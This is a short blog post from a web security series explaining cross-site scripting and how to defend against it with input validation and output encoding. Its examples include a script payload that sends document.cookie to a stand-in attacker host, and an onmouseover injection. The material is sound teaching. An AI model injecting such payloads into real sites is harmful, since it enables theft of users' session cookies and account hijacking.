 ```yaml
---
layout: post
title:  Security - XSS
tags: security
---
```


This is the second post of a **Web Security Series**. Let's talk about the well known XSS (Cross-Site Scripting) attack.

## XSS

XSS attacks are based on script injection exploiting the echoes/output from the server in response to user input, without validation or output encoding.

```html
<form action="benign.php" method="post">
    <input type="text" name="message">
    <input type="submit" value="submit">
</form> 

<!-- output sent message -->
${message}
```

#### Example #1

Injecting a script to send cookies to a malicious site.

```html
<script>new Image().src = ‘http://evil.php/steal?' + document.cookie</script>
```

#### Example #2

Injecting a simple tag to execute random javascript.

```html
<b onmouseover=alert('Wufff!')>click me!</b>
```

## Solution

There are two well known types of XSS attacks (Stored and Reflected). Stored or persistent Xss attacks are saved/persisted in the backend and can be retrieved later for various uses. Reflected are the ones shown in the previous examples.

To address both the issues, both user **input validation** should be enforced as well as **output enconding**.

### Input Validation

We can use the framework of choice to help validate user input. We should strive for whitelising as much as possible.

```java

// bean validation example
class Message {

@NotNull
@Pattern(regexp="[a-z]*")
@Size(min=5, max=10)
private String payload;

// getters and setters omitted
}

// controller 
@Valid Message message;
```

Couple of **Important Notes**:
* whitelist as much as possible, not blacklist.
* Avoid reflecting input back to the user (form, url, etc).

### Output Validation

Leverage the framework encoding capabilities to encode the output to prohibit writing malicious code back into the *HTML*.

```html
<!-- output sent message (jstl) -->
<c:out value="${message}"/>
```

## Caveats

**Response Header**
- X-XSS-Protection: 1; mode=block

Although modern browser use this header to validate XSS potential responses and block the output. This shoould not be relied upon as some browsers can disregard this instruction. 